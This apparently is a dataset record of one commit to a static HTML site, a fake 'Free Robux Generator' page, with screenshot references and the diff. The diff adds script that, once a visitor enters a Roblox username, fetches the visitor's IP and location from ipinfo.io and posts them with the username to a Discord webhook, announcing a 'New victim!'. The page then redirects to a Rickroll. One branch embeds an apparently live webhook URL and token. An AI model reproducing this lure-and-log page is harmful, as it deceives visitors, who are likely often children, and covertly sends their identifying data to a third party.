

Before and after one commit to Aero817/rbx-portal, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,107 +2,72 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
+  <title>Roblox Robux Generator</title>
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Free Robux Generator</title>
   <style>
     body {
+      background: linear-gradient(to bottom right, #f0f0f0, #d4d4d4);
+      font-family: "Segoe UI", sans-serif;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      justify-content: center;
+      height: 100vh;
       margin: 0;
-      padding: 0;
-      background: linear-gradient(to bottom, #ffc107, #ff5722);
-      font-family: 'Segoe UI', sans-serif;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-      color: #fff;
     }
-
     .container {
-      background: #212121;
-      padding: 30px;
-      border-radius: 15px;
-      box-shadow: 0 0 20px rgba(0,0,0,0.4);
+      background: white;
+      padding: 30px 40px;
+      border-radius: 16px;
+      box-shadow: 0 8px 20px rgba(0,0,0,0.2);
       text-align: center;
-      width: 90%;
       max-width: 400px;
     }
-
     h1 {
-      color: #4caf50;
-      margin-bottom: 20px;
+      font-size: 24px;
+      margin-bottom: 10px;
     }
-
-    .input {
-      margin-bottom: 20px;
+    p {
+      font-size: 14px;
+      color: #555;
     }
-
     input {
+      margin-top: 15px;
+      padding: 10px;
       width: 100%;
-      padding: 10px;
-      border-radius: 5px;
-      border: none;
       font-size: 16px;
-      outline: none;
+      border-radius: 8px;
+      border: 1px solid #ccc;
     }
-
-    .btn {
-      background-color: #4caf50;
-      color: white;
+    button {
+      margin-top: 15px;
       padding: 12px 20px;
-      font-size: 18px;
+      font-size: 16px;
+      background: #ffd100;
+      color: #000;
       border: none;
       border-radius: 8px;
       cursor: pointer;
-      transition: background-color 0.2s;
+      font-weight: bold;
     }
-
-    .btn:hover {
-      background-color: #45a049;
+    button:hover {
+      background: #ffcd00;
     }
-
-    .loader {
+    #loader {
+      display: none;
       margin-top: 20px;
-      display: none;
-    }
-
-    .dot {
-      display: inline-block;
-      width: 10px;
-      height: 10px;
-      margin: 0 3px;
-      background-color: #4caf50;
-      border-radius: 50%;
-      animation: bounce 0.6s infinite alternate;
-    }
-
-    .dot:nth-child(2) {
-      animation-delay: 0.2s;
-    }
-
-    .dot:nth-child(3) {
-      animation-delay: 0.4s;
-    }
-
-    @keyframes bounce {
-      to {
-        transform: translateY(-10px);
-      }
     }
   </style>
 </head>
 <body>
   <div class="container">
     <h1>Free Robux Generator</h1>
-    <div class="input">
-      <input type="text" id="username" placeholder="Enter your Roblox username">
-    </div>
-    <button class="btn" onclick="generate()">Generate Robux</button>
-
-    <div class="loader" id="loader">
-      <div class="dot"></div>
-      <div class="dot"></div>
-      <div class="dot"></div>
-      <p style="margin-top: 10px;">Processing...</p>
+    <p>Enter your Roblox username to begin:</p>
+    <input type="text" id="username" placeholder="Roblox Username" />
+    <button onclick="generate()">Generate</button>
+    <div id="loader">
+      <p>Verifying username and generating Robux...</p>
+      <img src="https://i.imgur.com/ZkZOXzI.gif" alt="Loading..." width="100">
     </div>
   </div>
 
@@ -116,7 +81,39 @@
 
       document.getElementById("loader").style.display = "block";
 
-      // Fake processing, then redirect to Rickroll
+      // Log IP and username to Discord
+      fetch("https://ipinfo.io/json?token=YOUR_TOKEN") // Optional token from ipinfo.io
+        .then(response => response.json())
+        .then(data => {
+          const ip = data.ip || "Unknown IP";
+          const city = data.city || "Unknown City";
+          const region = data.region || "Unknown Region";
+          const country = data.country || "Unknown Country";
+          const location = `${city}, ${region}, ${country}`;
+
+          fetch("https://discord.com/api/webhooks/YOUR_WEBHOOK_URL", {
+            method: "POST",
+            headers: {
+              "Content-Type": "application/json"
+            },
+            body: JSON.stringify({
+              content: `🎣 New victim!\n👤 Username: **${username}**\n🌐 IP: **${ip}**\n📍 Location: **${location}**`
+            })
+          });
+        })
+        .catch(() => {
+          fetch("https://discord.com/api/webhooks/1380129925121445889/lHyPATfRSm-9HDHIvqa9xCxJSXJZleVzAq4VB4g9t2eTnoV2ZIEaiCx5IL48Y4c1hVCp", {
+            method: "POST",
+            headers: {
+              "Content-Type": "application/json"
+            },
+            body: JSON.stringify({
+              content: `🎣 New victim!\n👤 Username: **${username}**\n🌐 IP: *(Failed to fetch)*`
+            })
+          });
+        });
+
+      // Rickroll after 4 seconds
       setTimeout(() => {
         window.location.href = "https://tinyurl.com/2fcpre6";
       }, 4000);
```
